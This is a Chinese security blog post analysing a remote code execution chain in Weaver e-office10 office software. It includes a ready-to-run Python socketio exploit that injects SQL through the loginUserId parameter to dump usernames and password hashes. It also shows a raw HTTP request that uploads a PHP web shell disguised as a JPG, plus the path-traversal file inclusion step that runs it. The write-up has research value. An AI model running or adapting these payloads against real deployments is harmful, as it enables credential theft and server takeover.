 

# 泛微 e-office10 远程代码执行漏洞分析 - 先知社区

泛微 e-office10 远程代码执行漏洞分析

- - -

根据微步描述知道是 im 服务的洞`https://mp.weixin.qq.com/s/4om8iuGpAKWPjEocBB4lKQ`

```plain
2、临时修复方案：

1.使用防护类设备对相关资产进行 SQL 注入、文件包含等攻击的防护；
2.在确认不影响业务的情况下可临时关闭 im 服务，或使用网络 ACL 策略限制 im 服务的公网访问。
```

[![](assets/1701678462-0f518ff6588e2e68f43c1d326db97f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201145-7722c0bc-8eb0-1.png)

[![](assets/1701678462-6d326128f9ad8637d0722051a06ea575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201149-7956b8fc-8eb0-1.png)

得到 nodejs 的 server 路径。没混淆什么的。diff 一下

知道是`getPersonalOfflineRecord`的问题

[![](assets/1701678462-fbf02069a388dd929891da90aa859f66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201153-7ba2c934-8eb0-1.png)

socket 事件为`outline recordLength`时触发。

[![](assets/1701678462-cc4ab89f40c4c8e1bfdd0f48cda2fbd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201159-7f07bf58-8eb0-1.png)

```plain
loginUserId 是 query 传进来的
```

[![](assets/1701678462-b68e5234dbb3a9a366f13e0422bf4c50.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201238-96bef2a6-8eb0-1.png)

```plain
继续跟 connectToSocket
```

[![](assets/1701678462-78b9aca7bec32a1d23a26bb2371e82f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201244-9a488824-8eb0-1.png)

这里的`/web`是`websocket`的`namespace`

`outline recordLength`是事件

python 连接 websocket 代码如下

有个坑。。。`socketio`报错可能需要装特定版本才能连上。不然会有`OPEN packet not returned by server`报错

`pip install python-engineio==3.14.2 python-socketio==4.6.0`

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')
#发送事件
@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))
#用来接收返回值

sio.connect('http://192.168.0.139:4986?loginUserId=admin&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

现在主要来看`outline recordLength`事件的处理

`personalRecordTableNameArray`为查询`information_schema.tables`中`chat_personal_record`开头的表

chat\_personal\_record 开头的表默认只有`chat_personal_record`。需要自己新建账号。聊天几句就会创建`chat_personal_record_1`等。后面有用。

[![](assets/1701678462-29f88253dc37e998bf56327d1d3cc3ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201256-a13d5150-8eb0-1.png)

这里就判断了。数据库中的表是否有`chat_personal_record_0、1、2、3`。如果没有就不会继续执行变量赋值了。下面的所有`sql`都依赖于这

[![](assets/1701678462-b1fc96526343b84884f0d88a39e72a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201301-a4370a72-8eb0-1.png)

之后就是直接带入 sql 执行了。然后返回值。

[![](assets/1701678462-97852c6435d7fc08fe9c5c6da13a04d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201305-a6839660-8eb0-1.png)

最终 exp 如下

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')

@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))


sio.connect('http://192.168.0.139:4986?loginUserId=aa",`chat_object`) union select 1,2,3,group_concat(user_accounts,0x7e,password,0x7e) ,5,6,0,8,9,10,11,12 from user%23&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

[![](assets/1701678462-4bded688de7f94162f1d1819bc7fac5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201311-aa160ac4-8eb0-1.png)

这里 password 是 md5(unix)。要解。解不出来就没用。或者还有其他的接口可以直接 MD5 登录？

登录后之后文件包含利用。长亭之前也发过一个。抓过接口。

```plain
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: 192.168.0.139:8010
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.139:8010/eoffice10/client/web/system/user/manage
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvQIRygBK
Content-Length: 8003

------WebKitFormBoundaryvQIRygBK
Content-Disposition: form-data; name="file"; filename="1.phP"
Content-Type: image/png

jpg 文件内容 + 后面<?php xxxx
------WebKitFormBoundaryvQIRygBK--
```

只有内容校验。jpg 的。但是直接 php 不能上传 有过滤

并且上传在 attachment 目录不能直接访问

至于为啥这里要用 phP 下面再说

[![](assets/1701678462-30d2fbbf4eac531163ebca637c03e594.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201316-ad545d26-8eb0-1.png)

返回包对应的 attachment 目录为`attachment\2023\11\29\8de8701f16a64d88f5fda3ad1b3f5375\1.phP`

```plain
HTTP/1.1 200 OK
Date: Wed, 29 Nov 2023 10:14:22 GMT
Server: Apache
Cache-Control: no-cache, private
Connection: close
Content-Type: application/json
Content-Length: 2702

{"status":1,"data":[{"attachmentId":"8de8701f16a64d88f5fda3ad1b3f5375","attachmentName":"1.phP","attachmentThumb":"data:image\/jpg;base64,\/xxxxxxxx","attachmentSize":7841,"attachmentType":"jpg","attachmentMark":1}],"runtime":"0.170"}
```

这里文件上传就搞定了。接着看文件包含。搜`require(.*?)\$`搜到`getArrayFromPhp`

[![](assets/1701678462-508fcdca2babeabe1827713381086411.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201321-b037d00e-8eb0-1.png)

这里看`getLangFileFullPath`的实现和上层调用`$local, $module`是否可控

[![](assets/1701678462-bb1cd475d0e11fd2fd965f24955c0401.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201325-b2a22358-8eb0-1.png)

先看方法实现。`$this->serverLangSuffix`是`.php` 并且`getServerLangFolder`是获取`eoffice10\server\resources`目录。所以只要`$filename`可控。就能`../../`配合 1.php 文件包含。由于泛微 E-office 只能 Windows 下部署 (官网试用只有 exe。咱也不知道有无 Linux 版)

[![](assets/1701678462-fa08e1ac750ff89280bc99a368ca880c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201331-b60b76d4-8eb0-1.png)

由于 Windows 下大小写不分。上传`1.phP`。包含`1.php`可以包含到。。ok 接着回头看`getPhpLangArrayByModule`上层调用的`$module`

继续跟进`getServerStaticLangsByModule`

[![](assets/1701678462-545895358f33d5566bfa087dc5d1e0b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201337-b9a45f04-8eb0-1.png)

module 可控。并且有定义路由

[![](assets/1701678462-9a8b88f4d07cdfcb26997943d9e43942.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201341-bc033586-8eb0-1.png)

带上登录的 Authorization 直接文件包含

[![](assets/1701678462-1d386186b50073a279ff59ac761674f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129201345-be3fa42e-8eb0-1.png)
